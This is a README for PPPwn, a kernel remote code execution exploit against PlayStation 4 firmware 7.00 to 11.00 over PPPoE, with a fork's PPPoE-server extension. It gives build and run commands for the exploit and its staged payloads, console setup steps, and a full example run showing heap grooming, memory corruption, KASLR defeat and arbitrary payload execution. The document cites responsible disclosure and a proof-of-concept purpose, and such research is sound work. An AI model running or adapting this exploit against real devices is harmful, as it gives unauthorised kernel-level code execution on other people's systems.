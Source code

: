 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for [CVE-2006-4304](https://hackerone.com/reports/2177925) that was reported responsibly to PlayStation.

Supported versions are:
- FW 7.00 / 7.01 / 7.02
- FW 7.50 / 7.51 / 7.55
- FW 8.00 / 8.01 / 8.03
- FW 8.50 / 8.52
- FW 9.00
- FW 9.03 / 9.04
- FW 9.50 / 9.51 / 9.60
- FW 10.00 / 10.01
- FW 10.50 / 10.70 / 10.71
- FW 11.00
- more can be added (PRs are welcome)

The exploit only prints `PPPwned` on your PS4 as a proof-of-concept. In order to launch Mira or similar homebrew enablers, the `stage2.bin` payload needs to be adapted.

## Requirements
- A computer with an Ethernet port
  - USB adapter also works
- Ethernet cable
- Linux
  - You can use VirtualBox to create a Linux VM with `Bridged Adapter` as network adapter to use the ethernet port in the VM.
- Python3 and gcc installed

## Usage

On your computer, clone the repository:

```sh
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```

Change the directory to the cloned repository:

```sh
cd PPPwn
```

Install the requirements:

```sh
sudo pip install -r requirements.txt
```

Compile the payloads:

```sh
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```

For other firmwares, e.g. FW 9.00, pass `FW=900`.

DO NOT RUN the exploit just yet (don't press Enter yet) but prepare this command on your prompt (see `ifconfig` for the correct interface):

```sh
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```

For other firmwares, e.g. FW 9.00, pass `--fw=900`.

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`

- Now, simultaneously press the 'X' button on your controller on `Test Internet Connection` and 'Enter' on your keyboard (on the computer you have your Python script ready to run).

ALWAYS wait for the console to show the message "Cannot connect to network: (NW-31274-7)" before trying this PPPOE injection again.

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. Kill the `pppwn.py` script and run it again on your computer, and then click on `Test Internet Connection` on your PS4: always simultaneously.


If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4, or the other way around. 

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```

## Notes for Mac Apple Silicon Users (arm64 / aarch64)
The code will not compile on Apple Silicon and requires AMD64 architecture.
There is a workaround using docker which will build the bin files required.
Clone this repository to your mac system, then from the repo folder run `./build-macarm.sh`. This will build the binaries for PS4 FW 1100 and place the necessary files into the correct folders. To build the binaries for a different version, i.e. 900, run the command as such: `./build-macarm.sh 900`. Once built, copy this folder structure into the Linux VM and execute as instructed above.
This has been tested using VMware Fusion 13.5.1, with the VM Guest as Ubuntu 24.04, and the host machine is MacOS 14.4.1

## PPPwn-server usage
This fork has modified pppwn.py, which is looped and attempts to act as a normal PPPoE server (pppd is used so it's Linux-only) when the client is a PPPwned PS4,
and a stage2 that patches the kernel to supply a different Host-Uniq header so that the pppwn.py is able to know it's PPPwned.

However, this stage2 is not self-contained, and the intended usage is to prepend it to the actual stage2 payload you are interested in. E.g.:

```
cd stage2
make FW=1000
cat stage2 stage2_10.00.bin > stage2.bin
```

In order to assemble the payload, you need to have nasm installed.

Then, run the exploit as usual.

If the PPPoE connection succeeds, you will have a new interface (probably named `ppp0`) connecting you (IP 10.0.0.1) to your PS4 (IP 10.67.15.1).
These IP addresses were simply taken from the default values of pppoe-server.

At this moment, the stage2 only supports 9.00, 10.0x, 10.50, and 11.00.
